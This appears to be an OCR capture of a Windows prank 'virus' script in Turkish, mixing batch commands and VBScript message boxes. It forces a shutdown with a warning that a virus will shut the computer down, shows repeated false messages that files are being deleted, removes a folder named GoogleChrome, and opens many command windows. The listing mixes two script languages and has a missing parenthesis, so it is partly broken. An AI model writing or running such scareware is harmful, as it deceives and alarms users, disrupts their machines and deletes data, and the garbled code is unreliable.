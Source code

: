 shutdown -s -t 10 -c "Bilgisayarınız virüs tarafından 120 saniye içinde kapatılacak"

X=MsgBox("Dosyalar Siliniyor",0+16,"Başlık")

X=MsgBox("Dosyalar Siliniyor.",0+16,"Başlık"

X=MsgBox("Dosyalar Siliniyor..",0+16,"Başlık"

X=MsgBox("Dosyalar Siliniyor...",0+16,"Başlık"

X=MsgBox("Dosyalar Siliniyor",0+16,"Başlık"

rd GoogleChrome

start cmd

start cmd

start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd
start cmd









X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
X=MsgBox("Bilgisayarı Hala Kullanıonmu?",0+16,"Başlık")
